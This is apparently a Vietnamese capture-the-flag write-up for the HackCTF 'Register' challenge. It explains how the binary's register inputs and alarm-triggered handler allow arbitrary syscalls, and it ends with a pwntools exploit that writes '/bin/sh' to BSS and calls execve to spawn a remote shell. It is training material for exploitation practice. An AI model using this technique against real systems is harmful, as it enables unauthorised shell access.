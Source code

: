 # Register
### Cre: Pyo Tutor

Hàm main sẽ setup Alarm(5) trước thi thực hiện function chính là Build() để thực thi.

![Đây là hàm Main](https://github.com/zirami/HackCTF/blob/main/register/image/main_func.png)


Tại hàm build(), signal sẽ được kích hoạt và gọi hàm handler để thực thi các tham số đã truyền trong obj.
Sau đó thực hiện 2 vòng while và Do while, nhận các tham số cho register.

![Đây là hàm build](https://github.com/zirami/HackCTF/blob/main/register/image/build%20func.png)
![Đây là hàm handler](https://github.com/zirami/HackCTF/blob/main/register/image/handler_func.png)


Trong hàm Do While có hàm validate_syscall_obj() để check điều kiện, với tham số đầu vào rơi vào RAX register.

![Đây là hàm Validate_syscal_obj](https://github.com/zirami/HackCTF/blob/main/register/image/validate_syscall_obj_func.png)

Chương trình sử dụng signal(14, handler); kèm theo alarm(5-seconds).
Sau đó, nhận các input cho các register của chương trình.
Vậy chỉ cần truyền các tham số hợp lí, thì có thể gọi shell.

# Solution

Có 2 công việc cần làm để gọi shell
* Tạo 1 nơi chứa chuỗi `/bin/sh`
* Truyền tham số cho RDI = addr("/bin/sh"), RAX = 59,... Đợi 5s.

## Getshell

![get_shell](https://github.com/zirami/HackCTF/blob/main/register/image/get_shell.png)


## File Exploit
```py
from pwn import * 
# s = process("./register")
s = remote('ctf.j0n9hyun.xyz', 3026)
# raw_input("debug")

binsh = "/bin/sh\x00"
#BSS_ADDR = 0x601100 = 6295808 
s.sendlineafter("RAX: ","0")
s.sendlineafter("RDI: ","0")
s.sendlineafter("RSI: ","6295808")
s.sendlineafter("RDX: ","8")
s.sendlineafter("RCX: ","0")
s.sendlineafter("R8: ","0")
s.sendlineafter("R9: ","0")

s.send(binsh)


s.sendlineafter("RAX: ","59")
s.sendlineafter("RDI: ","6295808")
s.sendlineafter("RSI: ","0")
s.sendlineafter("RDX: ","0")
s.sendlineafter("RCX: ","0")
s.sendlineafter("R8: ","0")
s.sendlineafter("R9: ","0")

sleep(4)

s.interactive()
```